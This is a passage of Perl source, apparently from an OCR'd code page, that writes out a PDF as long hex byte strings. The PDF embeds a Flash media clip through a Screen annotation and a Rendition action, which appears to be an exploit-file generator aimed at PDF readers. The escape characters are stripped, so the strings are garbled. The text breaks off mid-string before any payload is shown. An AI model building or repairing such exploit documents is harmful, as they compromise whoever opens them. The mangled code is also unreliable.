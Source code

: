use strict;
use warnings;

my $pdf_data1 = "x25x50x44x46x2Dx31x2Ex34x0Dx0Ax25xA1xB3xC5xD7x0Dx0Ax31x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70".
         "x65x2Fx50x61x67x65x2Fx50x61x72x65x6Ex74x20x34x20x30x20x52x20x2Fx52x65x73x6Fx75x72x63x65x73x20x36".
         "x20x30x20x52x20x2Fx4Dx65x64x69x61x42x6Fx78x5Bx20x30x20x30x20x35x39x35x20x38x34x32x5Dx2Fx47x72x6F".
         "x75x70x3Cx3Cx2Fx53x2Fx54x72x61x6Ex73x70x61x72x65x6Ex63x79x2Fx43x53x2Fx44x65x76x69x63x65x52x47x42".
         "x2Fx49x20x74x72x75x65x3Ex3Ex2Fx43x6Fx6Ex74x65x6Ex74x73x20x32x20x30x20x52x20x2Fx41x6Ex6Ex6Fx74x73".
         "x5Bx20x39x20x30x20x52x20x20x32x34x20x30x20x52x20x20x32x35x20x30x20x52x20x5Dx3Ex3Ex0Dx0Ax65x6Ex64".
         "x6Fx62x6Ax0Dx0Ax32x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx4Cx65x6Ex67x74x68x20x33x20x30x20x52x20x2Fx46".
         "x69x6Cx74x65x72x2Fx46x6Cx61x74x65x44x65x63x6Fx64x65x3Ex3Ex73x74x72x65x61x6Dx0Dx0Ax78x9Cx33xD0x33".
         "x54x28xE7x2Ax54x30x50x30x00xB2x4Cx2Dx4DxF5x8Cx15x2Cx4Cx0CxF5x2Cx15x8Ax52x15xC2xB5x14xF2xB8x02x15".
         "x00x87xEBx07x8Ax0Dx0Ax65x6Ex64x73x74x72x65x61x6Dx0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax33x20x30x20x6Fx62".
         "x6Ax0Dx0Ax20x34x32x0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax34x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65".
         "x2Fx50x61x67x65x73x2Fx52x65x73x6Fx75x72x63x65x73x20x36x20x30x20x52x20x2Fx4Dx65x64x69x61x42x6Fx78".
         "x5Bx20x30x20x30x20x35x39x35x20x38x34x32x5Dx2Fx4Bx69x64x73x5Bx20x31x20x30x20x52x20x5Dx2Fx43x6Fx75".
         "x6Ex74x20x31x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax35x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx5Ax69x54x69".
         "x20x31x38x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax36x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2F".
         "x46x6Fx6Ex74x20x35x20x30x20x52x20x2Fx50x72x6Fx63x53x65x74x5Bx2Fx50x44x46x2Fx54x65x78x74x5Dx3Ex3E".
         "x0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax37x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65x2Fx43x61x74x61x6C".
         "x6Fx67x2Fx50x61x67x65x73x20x34x20x30x20x52x20x2Fx4Fx70x65x6Ex41x63x74x69x6Fx6Ex5Bx20x31x20x30x20".
         "x52x20x2Fx58x59x5Ax20x6Ex75x6Cx6Cx20x6Ex75x6Cx6Cx20x30x5Dx2Fx4Cx61x6Ex67x28x65x6Ex2Dx55x53x29x3E".
         "x3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax38x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx41x75x74x68x6Fx72x28xFExFF".
         "x00x6Dx00x61x00x72x00x63x00x69x00x61x00x6Ex00x6Fx29x2Fx43x72x65x61x74x6Fx72x28xFExFFx00x57x00x72".
         "x00x69x00x74x00x65x00x72x29x2Fx50x72x6Fx64x75x63x65x72x28xFExFFx00x4Fx00x70x00x65x00x6Ex00x4Fx00".
         "x66x00x66x00x69x00x63x00x65x00x2Ex00x6Fx00x72x00x67x00x20x00x33x00x2Ex00x30x29x2Fx43x72x65x61x74".
         "x69x6Fx6Ex44x61x74x65x28x44x3Ax32x30x30x39x30x32x31x39x31x34x34x35x34x39x2Dx30x32x27x30x30x27x29".
         "x2Fx4Dx6Fx64x44x61x74x65x28x44x3Ax32x30x30x39x30x32x31x39x31x34x34x38x31x35x2Dx30x32x27x30x30x27".
         "x29x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax31x35x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65x2Fx46".
         "x69x6Cx65x73x70x65x63x2Fx46x28x63x75x61x6Cx71x75x69x65x72x61x29x2Fx46x53x2Fx55x52x4Cx3Ex3Ex0Dx0A".
         "x65x6Ex64x6Fx62x6Ax0Dx0Ax31x34x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx53x2Fx4Dx43x44x2Fx43x54x28x61x70".
         "x70x6Cx69x63x61x74x69x6Fx6Ex2Fx66x75x74x75x72x65x73x70x6Cx61x73x68x29x2Fx50x3Cx3Cx2Fx54x46x28x54".
         "x45x4Dx50x41x43x43x45x53x53x29x3Ex3Ex2Fx44x20x31x35x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6A".
         "x0Dx0Ax31x33x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx53x2Fx4Dx52x2Fx43x20x31x34x20x30x20x52x20x2Fx4Ex28".
         "x63x75x61x6Cx71x75x69x65x72x61x29x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax31x32x20x30x20x6Fx62x6Ax0D".
         "x0Ax3Cx3Cx2Fx54x79x70x65x2Fx41x63x74x69x6Fx6Ex2Fx53x2Fx52x65x6Ex64x69x74x69x6Fx6Ex2Fx4Fx50x20x34".
         "x2Fx41x4Ex20x39x20x30x20x52x20x2Fx52x20x31x33x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0A".
         "x31x31x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65x2Fx45x78x74x47x53x74x61x74x65x2Fx43x41x20x31".
         "x2Fx63x61x20x31x2Fx41x49x53x20x66x61x6Cx73x65x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax31x30x20x30x20".
         "x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx4Dx61x74x72x69x78x5Bx20x31x20x30x20x30x20x31x20x30x20x30x5Dx2Fx42x42x6F".
         "x78x5Bx20x30x20x30x20x31x33x30x2Ex31x33x39x20x32x37x2Ex32x38x39x37x5Dx2Fx52x65x73x6Fx75x72x63x65".
         "x73x3Cx3Cx2Fx45x78x74x47x53x74x61x74x65x3Cx3Cx2Fx49x6Dx61x67x65x4Fx70x61x63x69x74x79x20x31x31x20".
         "x30x20x52x20x3Ex3Ex3Ex3Ex2Fx4Cx65x6Ex67x74x68x20x35x34x2Fx46x69x6Cx74x65x72x2Fx46x6Cx61x74x65x44".
         "x65x63x6Fx64x65x3Ex3Ex73x74x72x65x61x6Dx0Dx0Ax78x9Cx2BxE4x2AxE4x32x50x00xC1xA2x74x30xC3xD0xD8x40".
         "xCFxD0xD8x52xC1xC8x5CxCFxC8xC2xD2x5CxA1x28x95xCBx50x01x08x8Dx2Cx20xC2xA6x70xE1x34x2DxAEx40x20x04".
         "x00xBDx52x0Dx43x0Dx0Ax65x6Ex64x73x74x72x65x61x6Dx0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax39x20x30x20x6Fx62".
         "x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65x2Fx41x6Ex6Ex6Fx74x2Fx53x75x62x74x79x70x65x2Fx53x63x72x65x65x6Ex2F".
         "x50x20x31x20x30x20x52x20x2Fx4Dx28x44x3Ax32x30x30x39x30x32x31x39x31x34x34x37x35x36x2Dx30x32x27x30".
         "x30x27x29x2Fx46x20x34x2Fx52x65x63x74x5Bx20x32x30x35x2Ex31x35x33x20x38x30x36x2Ex31x38x32x20x33x33".
         "x35x2Ex32x39x31x20x38x33x33x2Ex34x37x32x5Dx2Fx42x53x3Cx3Cx2Fx53x2Fx53x2Fx57x20x31x3Ex3Ex2Fx42x45".
         "x3Cx3Cx2Fx53x2Fx53x3Ex3Ex2Fx4Dx4Bx3Cx3Cx2Fx42x43x5Bx20x30x20x30x20x31x5Dx2Fx52x20x30x2Fx49x46x3C".
         "x3Cx2Fx53x57x2Fx41x2Fx53x2Fx41x2Fx46x42x20x66x61x6Cx73x65x2Fx41x5Bx20x30x2Ex35x20x30x2Ex35x5Dx3E".
         "x3Ex3Ex3Ex2Fx41x50x3Cx3Cx2Fx4Ex20x31x30x20x30x20x52x20x3Ex3Ex2Fx54x28x63x75x61x6Cx71x75x69x65x72".
         "x61x29x2Fx41x20x31x32x20x30x20x52x20x2Fx41x41x20x31x37x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62".
         "x6Ax0Dx0Ax32x35x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65x2Fx41x6Ex6Ex6Fx74x2Fx53x75x62x74x79".
         "x70x65x2Fx50x6Fx70x75x70x2Fx50x20x31x20x30x20x52x20x2Fx4Dx28x44x3Ax32x30x30x39x30x32x31x39x31x34".
         "x34x38x31x35x2Dx30x32x27x30x30x27x29x2Fx46x20x32x38x2Fx52x65x63x74x5Bx20x30x20x30x20x30x20x30x5D".
